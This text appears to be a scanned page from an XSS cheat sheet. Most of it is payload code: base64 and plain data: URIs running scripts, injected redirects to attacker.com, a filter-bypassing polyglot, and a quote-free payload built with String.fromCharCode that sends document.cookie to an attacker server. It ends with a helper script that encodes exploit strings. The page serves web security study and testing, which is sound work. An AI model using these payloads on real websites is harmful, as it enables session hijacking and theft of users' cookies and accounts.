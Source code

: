 data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTIGJ5IFZpY2tpZScpPC9zY3JpcHQ+"

data:text/html,<script>alert('XSS by Vickie')</script>

"/><script>location="http://attacker.com";</script>

<img src=""/><script>location="http://attacker.com";</script>">

```html
javascript:"/*\"/*`/*' /*</template>
</textarea></noembed></noscript></title>
</style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>
```

you can construct an XSS payload without quotes, like this:
```html
<scrIPT>location=String.fromCharCode(104, 116, 116, 112, 58, 47,
47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118,
101, 114, 95, 105, 112, 47, 63, 99, 61)+document.cookie;</scrIPT>
```

which is equivalent to
```html
<scrIPT>location="http://attacker_server_ip/?c="+document.cookie;</scrIPT>
```

You can use this piece of code to translate your
exploit string to an ASCII number sequence:
```html
<script>
function ascii(c){
    return c.charCodeAt();
}
encoded = "INPUT_STRING".split("").map(ascii);
document.write(encoded);
</script>
```

